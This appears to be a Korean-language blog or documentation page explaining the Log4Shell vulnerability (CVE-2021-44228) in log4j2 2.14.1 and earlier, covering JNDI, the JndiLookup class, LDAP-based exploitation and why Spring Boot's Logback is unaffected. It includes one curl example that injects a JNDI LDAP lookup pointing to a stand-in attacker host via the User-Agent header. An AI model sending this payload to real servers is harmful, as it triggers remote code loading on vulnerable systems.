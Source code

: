 ```yaml
---
layout: default
title: Log4j 보안 취약점 사태
parent: Log4j
nav_order: 100
last_modified_date: 2021-02-18 00:00:00
last_modified_at: 2021-02-18 00:00:00
---
```


# Log4j 보안 취약점 사태

[CVE-2021-44228](https://ko.wikipedia.org/wiki/Log4Shell)

Java 언어 기반의 프로그램중 가장 많이 사용하는 로그 라이브러리로써, 2.14.1 이하 버전의 log4j2 를 사용할 경우 이 취약점에 노출된다.

최초의 발단은 알리바바 클라우드 보안팀으로 부터 알려지게 되었으며, 2021년 12월 9일 트위터의 [게시글](https://twitter.com/P0rZ9/status/1468949890571337731) 로 부터 본격적으로 대중들에게 알려지게 되었다. 

## 취약점 원리

취약점 원리를 먼저 파악하기 전 JNDI(Java Naming and Directory Interface)에 대해 먼저 이해하여야 한다. JNDI는 디렉터리 서비스에서 제공하는 데이터 및 객체를 발견(discover)하고 참고(lookup)하기 위한 자바 API다.

많이 쓰이는 API는 아니지만 그나마 일반적으로 쓰였던 것은 원격에서 Java 애플리케이션 DB 설정을 변경하고자 할 때 사용하기도 한다. JDNI의 경우 LDAP, DNS, NIS, RMI 같은 프로토콜을 이용해서 JNDI를 호출할 수 있도록 지원한다.

JNDI 자체가 문제가 되는건 아니다. 근데 log4j 에서 무슨 이유인지는 모르겠지만 log 를 찍을때, JNDI 를 lookup 할 수 있는 코드가 포함되어 있었다. Log4j 라이브러리  패키지 경로 <code> package org.apache.logging.log4j.core.lookup </code> 에서 <code> JndiLookup </code> 이라는 클래스 가 있는데, 이 녀석은 logger 인터페이스로 전달받은 내용중 특정 네이밍 규칙으로 입력된 내용을 JDNI 으로 핸들링 해주는 클래스이다.  자세한 코드는 우측 링크를 선택해서 보면 된다. [JndiLookup.java](https://github.com/apache/logging-log4j2/blob/rel/2.14.1/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java)

여기에 LDAP 이라는 프로토콜과 결합되어 심각한 문제가 발생됬다. User-Agent 나 X-Api-Version 같은 header 값을 로그로 출력하는 코드가 포함되어 있을 경우 해커의 LDAP 주소를 입력하여 악성 코드를 서버에서 손쉽게 실행할 수 있게 된 것이다.

```
curl 127.0.0.1:8080 -H 'User-Agent: ${jndi:ldap://attacker.com/a}'
```

즉 이번 사태의 **근본적인 문제**는 log4j 에서 log 를 출력할 때, JNDI 를 lookup 하고 있었다는것이 문제다. 왜냐하면 log 를 출력할때 JNDI 를 lookup 하는 기능은 아무도 쓰지도 않는 기능이다. 스프링 부트 기본 내장 logger 인 logback 에서는 jndi lookup 자체를 하고 있지 않다. 굳이 고급 개발자가 아니더라도 해당 코드는 취약점이 발생하기 매우 높은 코드라는것은 예측이 가능한데 왜 이런 코드가 오픈 소스에 포함이 되어 있었을까 의문이다. (혹시?)

## Spring boot Logback은 안전하다.

위 취약점은 log4j에서 발생했다. 스프링 부트는 기본적으로 logback 을 사용한다. logback 은 jndi 자체를 lookup 하지 않기 때문에 ${jndi:~~} 와 같은 코드를 보내더라도 단순 문자열으로 출력할 뿐이다. 물론 스프링 부트 기본 logger를 사용하지 않고 직접 log4j 의존성을 주입하여 사용했다면 문제가 될 수 있다.